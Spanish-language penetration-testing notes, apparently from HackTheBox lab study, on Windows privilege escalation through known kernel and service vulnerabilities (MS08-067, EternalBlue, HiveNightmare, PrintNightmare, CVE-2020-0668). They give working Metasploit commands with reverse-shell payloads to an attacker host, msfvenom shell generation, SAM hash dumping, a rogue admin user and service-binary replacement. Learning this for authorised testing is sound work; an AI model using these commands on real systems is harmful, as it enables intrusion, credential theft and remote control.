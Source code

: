 
# Escalada de Privilegios en Windows - Kernel Exploits

## Introducción
Mantener todos los equipos Windows actualizados es difícil. Incluso con SCCM o WSUS, siempre hay sistemas sin parches que pueden explotarse. Existen múltiples vulnerabilidades de kernel y RCE que afectan desde Windows XP hasta Windows Server 2019.

Este documento resume las vulnerabilidades más notables, sus métodos de explotación y ejemplos prácticos.

## Vulnerabilidades Notables y Ejemplos

### MS08-067
- **Tipo**: RCE en servicio RPC/SMB.
- **Sistemas Afectados**: Windows 2000/2003/XP/Vista/2008.
- **Descripción**: Error en el manejo de solicitudes RPC permite ejecución como SYSTEM.
- **Uso en Escalada**: Si SMB (445) está bloqueado externamente pero accesible localmente, se puede hacer port-forward y explotar.
- **Explotación**:
```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOST <victima>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <atacante>
exploit
```
- **Referencia**: [MS08-067 Metasploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

---

### MS17-010 (EternalBlue)
- **Tipo**: RCE en SMBv1.
- **Descripción**: SMBv1 maneja incorrectamente paquetes malformados → RCE como SYSTEM.
- **Uso**: Puede ser usado remotamente o para escalada local si 445 solo es accesible internamente.
- **Explotación**:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <victima>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <atacante>
exploit
```
- **Referencia**: [EternalBlue PoC](https://github.com/worawit/MS17-010)

---

### CVE-2021-36934 (HiveNightmare / SeriousSam)
- **Tipo**: LPE - Lectura de hives del registro SAM/SYSTEM/SECURITY.
- **Descripción**: Usuarios estándar pueden leer los hives sensibles y extraer hashes.
- **Chequeo**:
```cmd
icacls c:\Windows\System32\config\SAM
```
- **Explotación**:
```powershell
HiveNightmare.exe
impacket-secretsdump -sam SAM-<fecha> -system SYSTEM-<fecha> -security SECURITY-<fecha> local
```
- **Referencia**: [HiveNightmare PoC](https://github.com/GossiTheDog/HiveNightmare)

---

### CVE-2021-1675 / CVE-2021-34527 (PrintNightmare)
- **Tipo**: LPE/RCE vía Print Spooler.
- **Descripción**: RpcAddPrinterDriver permite cargar DLL maliciosas como SYSTEM sin privilegio SeLoadDriverPrivilege.
- **Comprobación**: si no existe, obtendremos un "path does not exist"
```powershell
ls \\localhost\pipe\spoolss
```
- **Explotación (PowerShell PoC)**:
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
- **Referencia**: [PrintNightmare PoC cube0x0](https://github.com/cube0x0/CVE-2021-1675)


---

### CVE-2020-0668
- **Tipo**: LPE - File Arbitrary Move.
- **Descripción**: Windows Service Tracing permite mover archivos arbitrarios con privilegios SYSTEM usando enlaces simbólicos.
- **Proceso**:
  1. Se crea un payload malicioso (`maintenanceservice.exe`) con `msfvenom`.
  2. El exploit mueve el archivo a `C:\Program Files (x86)\Mozilla Maintenance Service\` reemplazando el binario legítimo.
  3. El movimiento **corrompe el binario** (error 216) → Por eso se usan **dos copias**: una se mueve (corrupta) para ganar control total (F) y otra se usa luego para reemplazarla manualmente. Se gana control total porque estamos moviendo un fichero creado por nosotros (tras obtenerlo de la máquina atacante) y windows mantiene los permisos de los ficheros que mueve.
- **Chequeo de permisos antes y después**:
```cmd
# Antes del exploit (solo RX)
icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Después del exploit (Full Control)
icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
- **Payload**:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=8443 -f exe > maintenanceservice.exe
```


Alternativa payload sin metasploit:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ATACANTE> LPORT=4444 -f exe -o shell_reverse.exe`

NOTA: Nos tranferimos a la maquina victima dos copias del payload. una maintenance.exe y otra maintenance2.exe. La primera para que se corrompa y moverlo y como pasamos un binario en el cual tenemos FULL CONTROL, se mantienen los permisos pero se corrompe el ejecutable tras usar el exploit.

- **Ejecutar exploit**:
```cmd
CVE-2020-0668.exe C:\Users\victima\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
- **Enlace PoC**: [CVE-2020-0668 Exploit](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)  Hay que compilarlo con VS.

Tras ejecutar el exploit, el ejecutable se corrompe por lo que pasamos la copia no corrompida mediente copy:
````cmd-session
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
````



---

### ALPC Task Scheduler 0-Day
- **Tipo**: LPE.
- **Descripción**: Usa SchRpcSetSecurity API para modificar DACLs y cargar DLL como SYSTEM vía Spooler.
- **Referencia**: Explorado en HackTheBox “Hackback”.

---

## Enumeración de Parches Faltantes

- **Comandos para listar actualizaciones instaladas**:
```powershell
systeminfo
wmic qfe list brief
Get-Hotfix
```
Podríamos hacernos a la idea de cuanto tiempo lleva sin actualizarse.

Buscar KB faltantes en [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/).

---

## Links Importantes

- **MS08-067 Exploit**: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
- **MS17-010 PoC**: https://github.com/worawit/MS17-010
- **HiveNightmare PoC**: https://github.com/GossiTheDog/HiveNightmare
- **PrintNightmare PoC**: https://github.com/cube0x0/CVE-2021-1675
- **CVE-2020-0668 Exploit**: https://github.com/RedCursorSecurityConsulting/CVE-2020-0668

---

## Notas Clave

- Muchas vulnerabilidades antiguas siguen presentes en entornos empresariales.
- EternalBlue (MS17-010) aún es común en infraestructuras antiguas.
- PrintNightmare afecta incluso a controladores de dominio.
- HiveNightmare permite extraer hashes sin privilegios.
- CVE-2020-0668 necesita combinarse con binarios de terceros vulnerables (ej. Mozilla Maintenance Service).

---
